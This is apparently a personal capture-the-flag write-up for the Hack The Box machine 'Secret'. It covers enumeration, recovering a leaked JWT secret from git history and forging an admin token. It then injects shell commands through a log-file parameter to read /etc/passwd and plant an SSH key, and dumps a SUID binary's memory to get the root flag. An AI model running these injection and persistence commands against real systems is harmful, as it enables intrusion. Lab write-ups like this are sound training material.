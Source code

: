 Box Info secret.htb
OS: Linux \
IP: 10.10.11.120  \

Part I Skills learned::  
AppSec, JS \ 

---
**Enumeration::**

nmap -p- -A -oN secetports.txt ${IP} ::
```
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)             
|_http-title: DUMB Docs                                 
3000/tcp open  http    Node.js (Express middleware)     
|_http-title: DUMB Docs                                 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel 
```

gobuster dir -u http://<ip> -w /usr/share/wordlists/directory-list-1.0.txt ::
+ /docs, /api, /Docs, /API, /DOCS

ffuf -u http://secret.htb:FUZZ -w /usr/share/wordlists/subdomains-top1million-110000.txt:FUZZ | grep "Status: 200"
+ 80, #www, #mail, 080, 3000, #smtp #pop3

nikto -h http://secret.htb ::
+ Server: nginx/1.18.0 (Ubuntu)

http://secret.htb -> DL Source Code ::
+ Private.js UN:theadmin
+ Auth.js "l:30 const password:hashPaswrod -> l:23 const hashPaswrod = await bcrypt.hash(req.body.password, salt)"
+ popperjs/core v2.9.2
+ Bootstrap v5.0.2
+ http://secret.htb/docs#section-3 shows theadmin:root@dasith.works:Kekc8swFgD6zU (not SSH creds)
---
###**Step 1:**###
  + Create user::
```
# curl -i -X POST \                                                      
> -H 'Content-Type: application/json' \
> -d '{"name":"drtuser","email":"drt@dasith.works","password":"password123" \
> http:![](Screenshots/strapi_exploit_broken_shell.png)//10.10.11.120/api/user/login
```
# See ![create_user](Screenshots/secret_create_user.png) \

  + Login w/ user creds::
```
# curl -i -x POST \
> -H 'Content-Type: application/json' \
> -d '{"email":"drt@dasith.works","password":"password123" \
> http://10.10.11.120/api/user/login
```
# See ![login_user](Screenshots/login_secret.png) \

 `auth-token:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWNmNzY0NzlhN2U2NDA0NjAzOTNjNjgiLCJuYW1lIjoiZHJ0dXNlciIsImVtYWlsIjoiZHJ0QGRhc2l0aC53b3JrcyIsImlhdCI6MTY0MDk4NjYxM30.UxFx2kUzbFY_Ymt_LWQGq9FzeSEJktenzCT4vBZ_WBA`

###** JWT validation::**###
 + using none algorithm [jwt.IO](JWT.io) 
   + change alg: to None, NONE, n0ne, nOne :: Nope
 + hijacking another user
   + No users we know run this :: Nope
 + brute forcing the key [jwt_bruteforcer] (https://lmammino.github.io/jwt-cracker/) #npm install --global jwt-cracker
   + jwt-cracker "<jwt-token>"  "abcdefghijklmnopqrstuwxyz" 6 :: Nope Token too complex.
 + log into /api/prv fails ::`curl -w '\n' -H "auth-token: <jwt-token>" http://<ip>/api/priv` ::
     {"role":{"role":"you are normal user","desc":"drtuser"}} # See ![failed_priv](Screenshots/failed_jwt_api_priv_secret.png)

##**Step 2:**## 
 +.git folder has git log # See ![git_log_changes](Screenshots/git_log_changes.png)
    + "removed .env for security reasons"
    + open .env file in vim :: to view changes
    + `:r! git diff HEAD~2` ::
see Before ![before](Screenshots/before_git_diff.png) && \
see After ![after](Screenshots/after_git_diff.png) \
```
 DB_CONNECT = 'mongodb://127.0.0.1:27017/auth-web'
-TOKEN_SECRET = gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
+TOKEN_SECRET = secret
``` 
   + Create new token && sign into /api/priv See ![newJWT_login](Screenshots/newjwt_login.png)
   + cmd injection with jwt authenticated token. See ![cmd_jwt](Screenshots/cmd_injection_w_jwt.png)
```
# curl -i \                                                                                                                                          3 ⨯
> -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTkwMDg3YWYwM2VjMDA0NWVlNjg1M2YiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRydEBkYXNpdGgud29ya3MiLCJpYXQiOjE2MzY4Mjk2NDh9.ENKbUxgLeuUXueEMn5DG_2LZUJemd11E842rQ1ekzLg' \
> 'http://10.10.11.120/api/logs?file=index.js;id;cat+/etc/passwd' | sed 's/\\n/\n/g'
##File must be URL encoded for it to work with curl.
```

User is not a service therefore, a reverse shell is possible. 
    + First try to ssh 
    + Must attach SSH-public key to secret.htb server. Must be added to user's home dir to "authorized_machines"
`ssh-keygen -t rsa -b 4096 -C 'drt@htb' -f secret.htb -P '' #4096 bits, -C comment, -f name of ssh-key and -P is null`
    + in order to make sure SSH-key sticks:
```
    mkdir -p /home/dasith/.ssh
    echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys 
```
create bash variable::
`export PUBLIC_KEY=$(cat secret.htb.pub)`

curl command

```
curl \
  -i \ # print headers
  -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTkwMDg3YWYwM2VjMDA0NWVlNjg1M2YiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRydEBkYXNpdGgud29ya3MiLCJpYXQiOjE2MzY4Mjk2NDh9.ENKbUxgLeuUXueEMn5DG_2LZUJemd11E842rQ1ekzLg' \ 
  -G \ # send data values through GET instead of POST
  --data-urlencode "file=index.js; mkdir -p /home/dasith/.ssh; echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys" \ # encode data parameters
  'http://10.10.11.120/api/logs'
```
See ![200_ssh_key](Screenshots/200_add_ssh_key.png)

Key should be present now ssh into dasith! See ![ssh_dasith](Screenshots/ssh_dasith.png)

user:: f49628ceda5c0f784c6ae947154b764b

##**Root::**##
    + /opt has count with SUID
        ./count /root :: See ![](Screenshots/secret_count.png)
    + strace && gdb dont help much - suid doesnt stay gdb. strace map is private
+ Because valgrind.log is present, "core dump" is exploitable. valgrind is a suite of tools for debugging! lucky us!
See ![core_dump](Screenshots/core_dump_valgrind.png)
```
./count /root/root.txt
ctrl + z
ps && kill -BUS <PID#> ##Apparently -BUS is same as -SIGSEGV
fg ::
"Bus error (core dumped)
```
+ crash reports are in `/var/crash` && can be unpacked with `apport-unpack` w/ `apport-unpack /var/crash/_opt_count.1000.crash /tmp/crash-report`
+ binary files vim Coredump.
+ line 1482&1483 have flag:: See ![root_flag](Screenshots/secret_rootflag.png)
Root :: e5bf603c4904fb6885014ad9cfc337ec

TODO: Read more about valgrind, apport-unpack

Segmentation Fault indicates an invalid access to a valid memory, while Bus Error indicates an access to an invalid address.
A problem report, as produced by apport is a single file with a set of key/value pairs in
the RFC822 syntax.


---
##**References:**###
[jwt.IO](JWT.io) 
[guide](https://drt.sh/posts/htb-secret/)
[jwt-cracker](https://github.com/lmammino/jwt-cracker)
[valgrind](https://www.man7.org/linux/man-pages/man1/valgrind.1.html)
[sig_vs_bus](https://www.geeksforgeeks.org/segmentation-fault-sigsegv-vs-bus-error-sigbus/)
[apport](https://wiki.ubuntu.com/Apport)
[seclist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/DNS/subdomains-top1million-110000.txt)